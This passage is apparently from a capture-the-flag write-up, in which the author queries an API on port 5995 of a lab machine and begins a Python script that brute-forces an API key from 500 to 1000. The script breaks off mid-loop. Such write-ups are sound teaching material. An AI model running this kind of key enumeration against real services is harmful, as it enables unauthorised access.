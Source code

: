 ![Cyber chef password](assets/cc2.png)

Now we check the Port 5995 at which the API Service is running

we make a GET request to the website root using httpie

```bash
http http://<MACHINE_IP>
```

![Output](assets/http1.png)

Now as per the hint the API key is in between 500 and 1000 and on further observation we found that if the api key is wrong a **404** Status is being returned so we can write a python script to get the correct API key

```python
#!/usr/bin/python3
 
import requests
import time

url = "http://<MACHINE_IP>:5995/"

print("Fuzzing the API Now...\n\n")

for i in range(500, 1000):
	r = requests.get(url+str(i))
	if r.status_code != 200:
		print("[{}] [URL: {}] No".format(i, url+str(i)))
	else:
```